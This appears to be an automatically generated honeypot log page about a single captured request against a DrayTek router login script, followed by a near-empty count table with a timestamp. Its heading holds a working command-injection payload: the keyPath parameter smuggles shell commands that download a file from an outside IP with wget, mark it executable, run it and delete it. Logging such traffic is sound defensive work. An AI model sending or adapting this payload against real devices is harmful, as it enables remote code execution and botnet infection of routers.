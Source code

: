 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=cd%20/tmp;%20wget%20http://103.133.111.238/draytek%20-O%20.draytek;%20chmod%20+x%20.draytek;%20sh%20.draytek;%20rm%20-rf%20.draytek&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 